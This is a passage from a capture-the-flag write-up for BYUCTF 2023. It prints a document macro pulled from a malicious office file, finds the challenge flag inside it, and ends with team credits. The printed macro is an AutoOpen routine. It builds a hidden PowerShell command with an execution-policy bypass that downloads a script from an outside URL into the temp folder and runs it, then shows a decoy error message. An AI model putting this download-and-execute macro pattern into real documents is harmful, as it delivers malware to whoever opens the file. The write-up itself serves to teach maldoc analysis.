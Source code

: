 ````sql
$ cat Basic/Project/NewMacros.xml                                                                                                                                                                                                        
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="NewMacros" script:language="StarBasic" script:moduleType="normal">Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub AutoOpen()
    Dim FGHNBVRGHJJGFDSDUUUU As String
    FGHNBVRGHJJGFDSDUUUU = &quot;cmd /K &quot; + &quot;byu&quot; + &quot;ctf&quot; + &quot;{&quot; + &quot;m@ldocs @re&quot; + &quot;sn@eky and bad}&quot; + &quot;e -WindowStyle hiddeN -ExecuTionPolicy BypasS -noprofile (New-Object      System.Net.WebClient).DownloadFile(&apos;http://bsrc.baidu.com/drill/doc-zh.html&apos;,&apos;%TEMP%\Y.ps1&apos;);      poWerShEll.exe -WindowStyle hiddeN -ExecutionPolicy Bypass -noprofile      -file %TEMP%\Y.ps1&quot;
    Shell FGHNBVRGHJJGFDSDUUUU, 0
    MsgBox (&quot;Module could not be found.&quot;)
End Sub

</script:module>
```

Great if you look carefully we can find the flag.

![1-Flag](https://github.com/V0lk3n/V0lk3n.github.io/assets/22322762/b3451f91-c0e3-4de7-9b35-b88827f6b195)

Now you only need to put it in the correct format.

FLAG : **byuctf{m@ldocs @re sn@eky and bad}**

## Credits<a name="Credits"></a>

Special thanks to :

* **[ByuCTF2023](https://github.com/BYU-CSA/BYUCTF-2023)** - team for the CTF!
* **Legoclones** - For the challenges creations of (based on my solves) :
	* **[WEB] urmombotnetdotnet.com 1 to 5**
	* **[REV] ducky 1**
	* **[REV] obfuscJStore**
* **Rikoot** - For the challenges creatios of **[Pentest] Mi6configuration 1-3-4**
* **SugarFree** - For the challenges creations of **[Misc] 006 1-2-3**
* **lankyshield** - For the challenge creation of **[Forensics] Bing Chilling**
	
 
And of course... 

**Thanks to my team [Godzillhack!](https://godzillhack.com)**
